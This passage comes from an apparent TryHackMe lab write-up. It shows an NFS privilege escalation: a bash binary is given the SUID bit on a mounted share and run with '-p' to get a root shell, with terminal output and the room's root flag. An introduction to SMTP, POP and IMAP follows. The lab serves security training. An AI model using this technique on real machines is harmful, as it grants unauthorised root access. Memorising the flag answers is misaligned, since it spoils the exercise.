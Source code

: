
Now, we're going to add the SUID bit permission to the bash executable we just copied to the share using "sudo chmod +[permission] bash". What letter do we use to set the SUID bit set using chmod? *s*


Let's do a sanity check, let's check the permissions of the "bash" executable using "ls -la bash". What does the permission set look like? Make sure that it ends with -sr-x. *-rwsr-sr-x*
```
┌──(kali㉿kali)-[/tmp/mount/cappucino]
└─$ ls -lah bash    
-rwsr-sr-x 1 root kali 1.1M Aug 19 16:25 bash

```

Now, SSH into the machine as the user. List the directory to make sure the bash executable is there. Now, the moment of truth. Lets run it with "./bash -p". The -p persists the permissions, so that it can run as root with SUID- as otherwise bash will sometimes drop the permissions. *No answer needed*

Great! If all's gone well you should have a shell as root! What's the root flag? *THM{nfs_got_pwned}*

```
cappucino@polonfs:~$ ls
bash
cappucino@polonfs:~$ ./bash -p
bash-4.4# whoami
root
bash-4.4# cat /root/root.txt
THM{nfs_got_pwned}
```

### Understanding SMTP 

What is SMTP?

SMTP stands for "Simple Mail Transfer Protocol". It is utilised to handle the sending of emails. In order to support email services, a protocol pair is required, comprising of SMTP and POP/IMAP. Together they allow the user to send outgoing mail and retrieve incoming mail, respectively.

The SMTP server performs three basic functions:

     It verifies who is sending emails through the SMTP server.
     It sends the outgoing mail
     If the outgoing mail can't be delivered it sends the message back to the sender

Most people will have encountered SMTP when configuring a new email address on some third-party email clients, such as Thunderbird; as when you configure a new email client, you will need to configure the SMTP server configuration in order to send outgoing emails.

POP and IMAP

POP, or "Post Office Protocol" and IMAP, "Internet Message Access Protocol" are both email protocols who are responsible for the transfer of email between a client and a mail server. The main differences is in POP's more simplistic approach of downloading the inbox from the mail server, to the client. Where IMAP will synchronise the current inbox, with new mail on the server, downloading anything new. This means that changes to the inbox made on one computer, over IMAP, will persist if you then synchronise the inbox from another computer. The POP/IMAP server is responsible for fulfiling this process.

